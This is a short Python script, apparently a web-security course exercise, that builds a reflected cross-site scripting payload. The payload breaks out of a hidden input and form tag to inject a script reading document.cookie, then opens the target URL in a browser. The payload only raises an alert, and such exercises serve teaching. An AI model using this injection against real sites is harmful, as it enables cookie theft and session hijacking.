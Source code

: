 

```python
cat  case29.py
#!/usr/bin/env python3

# finish the hidden input tag, finish the form tag, add evil script tag, open form tag like nothing happened

# because onload='javascript:alert()' does not work for INPUT see https://stackoverflow.com/questions/3708850/is-there-an-onload-event-for-input-elements

# because SCRIPT is not allowed inside FORM see https://stackoverflow.com/questions/15354608/about-script-tags-inside-form-tags
import urllib.parse

evil = """artem">
</form>
<script>alert(document.cookie)</script>
<form>
"""

payload = {'secret' : evil }
enc_payload = urllib.parse.urlencode(payload)

url_2 = 'http://www.wsb.com/Assignment2/case29.php?' + enc_payload

import webbrowser
#open in new window
webbrowser.open(url_2, new=2)
```


